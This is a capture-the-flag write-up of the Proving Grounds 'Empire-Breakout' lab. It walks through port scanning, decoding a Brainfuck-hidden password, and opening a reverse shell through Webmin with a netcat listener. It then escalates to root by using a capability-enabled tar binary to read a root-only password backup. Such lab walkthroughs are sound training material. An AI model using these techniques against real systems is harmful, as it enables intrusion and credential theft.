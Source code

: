 ```yaml
---
title: "Proving grounds Play: Empire-breakout"
layout: post
date: 2023-10-01 03:00
categories: writeup
---
```


Proving grounds Play - Empire-Breakout CTF writeup.

## Nmap

```sh
PORT      STATE SERVICE VERSION
80/tcp    open  http    Apache httpd 2.4.51 ((Debian))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.51 (Debian)
139/tcp   open  netbios-ssn Samba smbd 4.6.2
445/tcp   open  netbios-ssn Samba smbd 4.6.2
10000/tcp open  http    MiniServ 1.981 (Webmin httpd)
|_http-favicon: Unknown favicon MD5: C7F93A5D476A64454D4E271B24571406
|_http-title: 200 &mdash; Document follows
|_http-trane-info: Problem with XML parsing of /evox/about
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: MiniServ/1.981
20000/tcp open  http    MiniServ 1.830 (Webmin httpd)
|_http-title: 200 &mdash; Document follows
|_http-favicon: Unknown favicon MD5: 953B40D37322DDEFEEC092BC48AEA904
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: MiniServ/1.830
```

## SMB Username Enumeration

Using `enum4linux` the username cyber has been discovered.

## 80/tcp - open  http - Apache httpd 2.4.51 ((Debian))

![img](/assets/images/CTF/Proving_Grounds/Empire-breakout/web.png)

There is a encrypted text commented in the source code of the apache page `view-source:http://192.168.240.238/`.

```html
<!--
don't worry no one will get here, it's safe to share with you my access. Its encrypted :)

++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>++++++++++++++++.++++.>>+++++++++++++++++.----.<++++++++++.-----------.>-----------.++++.<<+.>-.--------.++++++++++++++++++++.<------------.>>---------.<<++++++.++++++.
-->
```

## Cipher Analysis

[https://www.dcode.fr/cipher-identifier](https://www.dcode.fr/cipher-identifier)

![img](/assets/images/CTF/Proving_Grounds/Empire-breakout/analysis1.png)

**Brainfuck**

![img](/assets/images/CTF/Proving_Grounds/Empire-breakout/analysis2.png)

Upon analysis the algorithm of the encrypted text has been discovered which is `Brainfuck`.

## Brainfuck decode

[https://www.splitbrain.org/_static/ook/](https://www.splitbrain.org/_static/ook/)

**Decoded text**

```text
.2uqPEfj3D<P'a-3
```

## 20000/tcp - open  http - MiniServ 1.830 (Webmin httpd)

![img](/assets/images/CTF/Proving_Grounds/Empire-breakout/web2.png)

Login to the portal using the username `cyber` and password `.2uqPEfj3D<P'a-3`.

Click on the interactive shell and create a reverse shell connection.

![img](/assets/images/CTF/Proving_Grounds/Empire-breakout/shell.png)

```sh
naveenj@hackerspace:|01:09|~/pg-play/Empire-breakout$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [192.168.45.225] from (UNKNOWN) [192.168.240.238] 55430
python3 -c 'import pty; pty.spawn("/bin/bash")'
cyber@breakout:~$ 
```

**Initial Foothold Obtained**

## Privilege Escalation

Enumerate the machine's extended capabilities.

```sh
cyber@breakout:~$ getcap -r / 2>/dev/null
getcap -r / 2>/dev/null
/home/cyber/tar cap_dac_read_search=ep
/usr/bin/ping cap_net_raw=ep
cyber@breakout:~$ 
```

There is a binary `tar` located in the folder `/home/cyber`, which can be used to reveal the contents of the restricted files.

Upon checking the folders there is a old password file exists in the `backups` folder.

```sh
cyber@breakout:~$ cd /var/backups
cd /var/backups
cyber@breakout:/var/backups$ ll
ll
total 484K
4.0K drwxr-xr-x  2 root root 4.0K Dec  8  2022 .
 40K -rw-r--r--  1 root root  40K Dec  8  2022 alternatives.tar.0
   0 -rw-r--r--  1 root root    0 Dec  8  2022 dpkg.arch.0
 16K -rw-r--r--  1 root root  13K Nov 17  2022 apt.extended_states.0
4.0K -rw-------  1 root root   17 Oct 20  2021 .old_pass.bak    #old password file
404K -rw-r--r--  1 root root 404K Oct 19  2021 dpkg.status.0
4.0K -rw-r--r--  1 root root 1.5K Oct 19  2021 apt.extended_states.1.gz
4.0K drwxr-xr-x 14 root root 4.0K Oct 19  2021 ..
4.0K -rw-r--r--  1 root root  186 Oct 19  2021 dpkg.diversions.0
4.0K -rw-r--r--  1 root root  135 Oct 19  2021 dpkg.statoverride.0
cyber@breakout:/var/backups$ 
```

### Exploitation

Use the tar utility to compress the old password file.

```sh
cyber@breakout:~$ ./tar -cvf old_pass.tar /var/backups/.old_pass.bak    #compress
./tar -cvf old_pass.tar /var/backups/.old_pass.bak
/var/backups/.old_pass.bak
cyber@breakout:~$ ll
4.0K drwxr-xr-x  8 cyber cyber 4.0K Oct  1 01:28 .12K -rw-r--r--  1 cyber cyber  10K Oct  1 01:28 old_pass.tar   #compressed file
4.0K -rw-r--r--  1 root  root    33 Oct  1 01:01 local.txt
4.0K drwxr-xr-x  2 cyber cyber 4.0K Oct 20  2021 .tmp
   0 -rw-------  1 cyber cyber    0 Oct 20  2021 .bash_history
520K -rwxr-xr-x  1 root  root  520K Oct 19  2021 tar
4.0K drwxr-xr-x  3 cyber cyber 4.0K Oct 19  2021 .local
4.0K drwx------ 16 cyber cyber 4.0K Oct 19  2021 .usermin
4.0K drwxr-xr-x  2 cyber cyber 4.0K Oct 19  2021 .filemin
4.0K drwx------  2 cyber cyber 4.0K Oct 19  2021 .gnupg
4.0K drwx------  2 cyber cyber 4.0K Oct 19  2021 .spamassassin
4.0K -rw-r--r--  1 cyber cyber  220 Oct 19  2021 .bash_logout
4.0K -rw-r--r--  1 cyber cyber 3.5K Oct 19  2021 .bashrc
4.0K -rw-r--r--  1 cyber cyber  807 Oct 19  2021 .profile
4.0K drwxr-xr-x  3 root  root  4.0K Oct 19  2021 ..
cyber@breakout:~$
```

Extract the compressed file to read the password file.

```sh
cyber@breakout:~$ ls
ls
local.txt  old_pass.tar  tar  var   #extracted var folder
cyber@breakout:~$ cd var
cd var
cyber@breakout:~/var$ ls
ls
backups
cyber@breakout:~/var$ cd backups
cd backups
cyber@breakout:~/var/backups$ ll
ll
total 12K
4.0K drwxr-xr-x 2 cyber cyber 4.0K Oct  1 01:32 .
4.0K drwxr-xr-x 3 cyber cyber 4.0K Oct  1 01:32 ..
4.0K -rw------- 1 cyber cyber   17 Oct 20  2021 .old_pass.bak   #password file
cyber@breakout:~/var/backups$ cat .old_pass.bak
cat .old_pass.bak
Ts&4&YurgtRX(=~h    #password
cyber@breakout:~/var/backups$
```

Switch to root user and use the password found above.

```sh
cyber@breakout:~/var/backups$ su root
su root
Password: Ts&4&YurgtRX(=~h
root@breakout:/home/cyber/var/backups# 
cd
root@breakout:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@breakout:~# 
```

**Root Obtained**

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).